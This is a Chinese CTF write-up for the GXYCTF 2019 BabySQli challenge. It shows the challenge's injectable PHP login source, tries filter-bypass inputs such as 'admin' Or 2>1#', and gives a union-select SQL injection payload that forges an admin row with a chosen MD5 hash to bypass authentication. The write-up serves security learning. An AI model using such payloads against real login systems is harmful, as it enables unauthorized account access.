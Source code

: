 ```yaml
---
author: 
  name: Zephyr
title: GXYCTF 2019 BabySQli
date: 2022-7-15 14:11:24
permalink: /pages/2e1547494524d1c9
tags: 
  - buuctf
  - web
  - SQLInjection
---
```


# GXYCTF 2019 BabySQli

## 题目分析

首先看一下题目，很普通的一个登录页面：

![GXYCTF_2019_BabySQli1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli1.png)

随便输入点什么后，发现跳转的search.php页面源码中有注释字符

![GXYCTF_2019_BabySQli2](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli2.png)

```
MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5
```

大写的字母和数字很明显是base32，先用base32解码一下

```
c2VsZWN0ICogZnJvbSB1c2VyIHdoZXJlIHVzZXJuYW1lID0gJyRuYW1lJw==
```

还有一层base64，继续解码得到SQL语句

```sql
select * from user where username = '$name'
```

很明显注入点在username上

尝试输入admin、password进行登录，提示wrong pass

![GXYCTF_2019_BabySQli3](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli3.png)

接着尝试输入root、root进行登录，提示wrong user，

![GXYCTF_2019_BabySQli4](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli4.png)

两者对比说明`admin`这个账户是存在的

尝试`admin' or 1=1#`万能密码登录

![GXYCTF_2019_BabySQli5](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli5.png)

被过滤了，换个变种`admin' Or 2>1#`尝试绕过，依然提示wrong pass

![GXYCTF_2019_BabySQli6](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli6.png)

万能密码绕不过，猜测用户名和密码是分开验证的，试了好一会儿没试出来，选择查看源码，buu给了源码地址，具体源码如下：

```php
<!--MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5-->
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Do you know who am I?</title>
<?php
require "config.php";
require "flag.php";
 
// 去除转义
if (get_magic_quotes_gpc()) {
    function stripslashes_deep($value)
    {
        $value = is_array($value) ?
        array_map('stripslashes_deep', $value) :
        stripslashes($value);
        return $value;
    }
 
    $_POST = array_map('stripslashes_deep', $_POST);
    $_GET = array_map('stripslashes_deep', $_GET);
    $_COOKIE = array_map('stripslashes_deep', $_COOKIE);
    $_REQUEST = array_map('stripslashes_deep', $_REQUEST);
}
 
mysqli_query($con,'SET NAMES UTF8');
$name = $_POST['name'];
$password = $_POST['pw'];
$t_pw = md5($password);
$sql = "select * from user where username = '".$name."'";
$result = mysqli_query($con, $sql);
 
if(preg_match("/\(|\)|\=|or/", $name)){
    die("do not hack me!");
}
else{
    if (!$result) {
        printf("Error: %s\n", mysqli_error($con));
        exit();
    }
    else{
        $arr = mysqli_fetch_row($result);
        if($arr[1] == "admin"){
            if(md5($password) == $arr[2]){
                echo $flag;
            }
            else{
                die("wrong pass!");
            }
        }
        else{
            die("wrong user!");
        }
    }
}
 
?>
```

对密码验证的逻辑如下：

```php
$arr = mysqli_fetch_row($result);
if($arr[1] == "admin"){
    if(md5($password) == $arr[2]){
        echo $flag;
    }
    else{
        die("wrong pass!");
    }
}
else{
    die("wrong user!");
```

这里的逻辑是对我们提交的password进行md5加密后与数据库返回的密码进行比较，所以可以推出数据库内password在存储前也经过了md5加密

## 思路整理

- username处存在注入点
- 存在admin账户
- 提交的password经过md5加密后会与后端返回的password进行校验
- 依然还是不知道password是多少

似乎陷入了一个死结，不知道密码就无法登录，但这里联合查询语句的一个特性可以帮助解题

## 联合查询语句特性

- union select会把查询结果接在前一个查询结果后面，前面如果查到了东西，那么取得是两个查询的结果，如果前一个查询为空，返回后一个查询结果例子如下：

![GXYCTF_2019_BabySQli7](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli7.png)

这样我们就可以让前一个查询为空，然后拼接我们想要的结果的联合查询语句，来实现我们想要的任意SQL查询的返回的结果

tips:联合查询字段数必须一致

回到本题，那么就应该获取字段数了，过滤了or用Or绕过，确实字段数为3

![GXYCTF_2019_BabySQli8](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli8.png)

因为源码中`$arr[1] == "admin"`这一句确定了username在第二个字段，那么password不是第一个字段就是第三个字段了，这里盲猜第三个

## Payload

所以构造Payload如下：

```url
name=' union select 1,'admin','5f4dcc3b5aa765d61d8327deb882cf99'#&pw=password
```

即可获得flag

![GXYCTF_2019_BabySQli9](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli9.png)